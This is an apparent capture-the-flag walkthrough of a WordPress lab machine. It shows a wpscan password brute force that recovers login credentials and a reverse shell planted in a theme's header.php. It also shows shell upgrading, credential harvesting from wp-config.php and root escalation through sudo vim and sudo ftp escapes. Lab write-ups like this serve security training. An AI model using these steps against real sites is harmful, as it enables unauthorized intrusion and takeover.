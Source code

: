 tags
#privEsc #easy #gobuster #wpscan #sudoVIM #sudoFTP
IP address: 10.10.64.128
# Enumerations
```
nmap -sC -sV 10.10.250.171 -T5
```
![[Pasted image 20240609193857.png]]
```
nmap -p- -A 10.10.250.171 -T5
```
![[Pasted image 20240609202648.png]]
## Open ports
80: HTTP
4512: ssh
## Usernames / passwords?
Hugo
C0ldd:9876543210
Philip


# Gobuster
```python
gobuster dir -u 10.10.250.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```
![[Pasted image 20240609194252.png]]
## Directories

/wp-content           (Status: 301) [Size: 319] [--> http://10.10.250.171/wp-content/]
/wp-includes          (Status: 301) [Size: 320] [--> http://10.10.250.171/wp-includes/]
/wp-admin             (Status: 301) [Size: 317] [--> http://10.10.250.171/wp-admin/]
/hidden               (Status: 301) [Size: 315] [--> http://10.10.250.171/hidden/]

# Niko Finds
http://10.10.250.171/xmlrpc.php/
There might be a vulnerbility with how xmlrpc is setup. Lets try it

> [!NOTE]
> The main weaknesses associated with XML-RPC are: Brute force attacks: Attackers try to login to WordPress using xmlrpc.php .
> lets see how that is actually done & how you might be able to leverage this while your trying to test a wordpress site for any potential vulnerabilites

Did not find anything with xmlrpc.php

# WP-Scans
```bash
 wpscan --url http://10.10.64.128/ -U c0ldd --password-attack wp-login -P /usr/share/wordlists/rockyou.txt
```
### Scan details
[!] XML-RPC seems to be enabled: http://10.10.64.128/xmlrpc.php  
[!] The version is out of date, the latest version is 3.7
### Found credentials 
**c0ldd:9876543210**
![[Pasted image 20240609204402.png]]

# Getting reverse shell after log-in
Appearance -> Editor 
We will be using header.php and uploading pentest monkey reverse shell.
```python
http://10.10.64.128/wp-content/themes/twentyfifteen/header.php
```
Visiting the site starts the reverse shell.
# Upgrading shell (MAKE A DOC FOR THIS)
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERRM=xterm
stty raw -echo && fg    


# User.txt
```python
grep -Hrn c0ldd / 2>/dev/null
"""
-H: This option forces grep to always print the filename where the match was found, even if there's only one file being searched. It stands for "print filename".

-r: This option tells grep to search recursively through directories. It stands for "recursive".

-n: This option tells grep to prefix each line of output with the line number within its file. It stands for "line number".
"""
```
- /var/www/html/wp-config.php:22:define('DB_USER', 'c0ldd');

![[Pasted image 20240609210033.png]]

c0ldd:cybersecurity

```
cat user.txt
```
- RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==

# Root.txt
```
sudo -l
```
![[Pasted image 20240609210351.png]]
## VIM
https://gtfobins.github.io/gtfobins/vim/
```
sudo vim -c ':!/bin/sh'
```
- wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE
## FTP
https://gtfobins.github.io/gtfobins/ftp/
```
sudo ftp
```
```
!/bin/sh
```
- wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE